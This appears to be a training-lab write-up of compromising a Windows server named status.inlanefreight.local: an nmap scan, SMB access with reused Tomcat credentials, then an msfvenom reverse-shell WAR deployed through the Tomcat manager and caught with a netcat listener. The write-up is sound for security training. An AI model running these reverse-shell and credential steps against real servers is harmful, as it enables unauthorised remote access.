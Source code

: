 ### Domain
status.inlanefreight.local

### Nmap

```bash
┌─[htb-student@skills-foothold]─[~]
└──╼ $nmap -p 80,135,139,445,3389,8080 -sVC 172.16.1.11
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-18 04:20 EDT
Nmap scan report for status.inlanefreight.local (172.16.1.11)
Host is up (0.012s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Inlanefreight Server Status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2019 Standard 17763 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=shells-winsvr
| Not valid before: 2023-07-17T07:46:00
|_Not valid after:  2024-01-16T07:46:00
| rdp-ntlm-info: 
|   Target_Name: SHELLS-WINSVR
|   NetBIOS_Domain_Name: SHELLS-WINSVR
|   NetBIOS_Computer_Name: SHELLS-WINSVR
|   DNS_Domain_Name: shells-winsvr
|   DNS_Computer_Name: shells-winsvr
|   Product_Version: 10.0.17763
|_  System_Time: 2023-07-18T08:21:00+00:00
|_ssl-date: 2023-07-18T08:21:05+00:00; -1s from scanner time.
8080/tcp open  http          Apache Tomcat 10.0.11
|_http-title: Apache Tomcat/10.0.11
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-07-18T08:21:00
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h23m58s, deviation: 3h07m49s, median: -1s
|_nbstat: NetBIOS name: SHELLS-WINSVR, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:a6:18 (VMware)
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: shells-winsvr
|   NetBIOS computer name: SHELLS-WINSVR\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-07-18T01:21:00-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.88 seconds
```

### SMB
Access with smbclient and credentials tomcat:Tomcatadm but nothing in here
`smbclient -U tomcat -L //172.16.1.11/`

### Tomcat
Opening firefox throught console we can access to manage tomcat app

`http://172.16.1.11:8080/manager/html`

Create a msfvenom reverse shell war format

`msfvenom -p windows/shell_reverse_tcp LHOST=172.16.1.5 LPORT=443 -f war> revshell.war`

Upload through war upload section, and access to the url with a netcat listener opened

`nc -nvlp 443`

http://172.16.1.11:8080/revshell/ekshuevkgtu.jsp

And we are in